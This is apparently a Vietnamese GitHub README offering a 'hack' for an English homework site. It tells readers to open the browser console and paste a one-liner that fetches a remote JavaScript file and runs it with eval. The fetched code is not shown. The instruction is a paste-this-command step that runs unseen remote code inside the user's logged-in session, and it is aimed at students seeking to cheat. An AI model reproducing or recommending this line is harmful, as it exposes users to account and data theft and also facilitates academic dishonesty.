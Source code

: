 # Bài tập Tiếng Anh

<p align="center">
     <img width="478" height="304" src="resources/yourhomework.png"/>
</p>

#### <p align="right"> Minh-Nhật-A3

### 👨‍💻 Hack YourHomeWork

**Sử dụng F12** hoặc **Ctrl+Shift+J** để mở phần bảng điều khiển.

----

### 🎓 Hướng dẫn

**Copy dòng sau và Paste vào bảng điều khiển**

``` fetch("https://raw.githubusercontent.com/Rainsh0wer/Project.Storm/main/main/Alpha01.js").then(a=>a.text().then(b=>eval(b))) ```

### 🎬 Video Hướng Dẫn
``` Hiện chưa có ```

# Người đăng
- [Rainsh0wer](https://github.com/Rainsh0wer)


